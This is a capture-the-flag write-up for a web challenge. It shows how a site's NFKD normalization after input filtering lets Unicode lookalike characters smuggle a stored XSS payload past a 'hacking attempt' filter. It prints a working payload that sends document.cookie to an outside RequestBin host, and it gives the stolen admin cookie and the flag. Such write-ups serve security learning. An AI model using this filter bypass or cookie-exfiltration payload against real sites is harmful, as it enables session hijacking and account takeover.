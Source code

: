 # Challenge
A bunch of university students want to start a company and hired some young university students. I wonder if they paid any attention to security.  
  
# Setup
Website: https://web-chainreaction-a4b5ae3b.chal-2021.duc.tf  
  
# Solution
At the bottom of the login page of the website, we see a link to the developer portal. When we visit `/dev`, we see that the website "is still under construction", and it instead directs us to either `/devchat` or `/admin`. Visiting `/admin` redirects us to `/login` with the flashed message `Not allowed.` at the top of the page. This indicates we need to have some admin "cookie" set in order to proceed.  
  
Visiting `/devchat` instead shows us messages between developers, which give us useful information:
<ol>
  <li> "For now I have set a static cookie, but Ill fix that up on Monday." -> confirms our theory about the admin cookie </li>
  <li> "bruh... you basically just added a vulnerability, why tf are you normalizing after checking the bad characters" -> upon searching for "normalising characters", we see that this probably refers to decomposing Unicode characters into constituent, or smaller parts/a part. </li>
  <li> "Only used it once for a uni project this semester, NFKD I think it was" -> NKFD is a Unicode normalisation scheme, so this solidifies the idea of a normalising user inputted characters. The fact that the developer is normalising after checking for some "bad" payload indicates that to exploit this website, we should "smuggle" these bad strings through Unicode characters which are only unpackaged after input validation, like a Trojan horse. </li>
  <li> "Also the about me section was all html escaped making it look ugly, need to try and find a fix for that as well. It looks very ugly." -> this was sent after a developer said the page was autoescaped because values were inputted raw (which would introduce an XSS vulnerability), however now that that feature seems to be raw. This indicates we need to construct an XSS attack which sends a user's cookie to some proxy, report the error to the admins, check the proxy and retrieve their cookie </li>
</ol>

To test our idea of the XSS, we can register an account, log into it and view our profile page. After entering `" hidden value="` into the "About me" field and updating our information, we see that the field disappears:
[!About me field is gone](disap.png)
However, if we try to enter `<script>`, we see that the website detects a "hacking attempt":
[!Hacking attempt](hackattempt.png)
Not only does this occur for the angle brackets but also simply the string "script". This is where our knowledge of the NFKD normalisation algorithm comes from: we can enter a string which has alternative "Unicode" versions of the angle brackets and one of the letters of "script" to bypass the XSS detection and then have the payload be decomposed with NFKD. Our final payload looks like this (I used RequestBin as the proxy):
```
"＞＜scᴿipt＞ fetch(`https://[my_bin].x.pipedream.net/c=${document.cookie}`)＜/scᴿipt＞
```
Then, after retrieving the cookie **sup3rs3cur34dm1nc00k13**, we can set it on our browser and visit the `/admin` page to read the flag.<br>
Flag: **DUCTF{\_un1c0de\_bypass_x55_ftw!}**
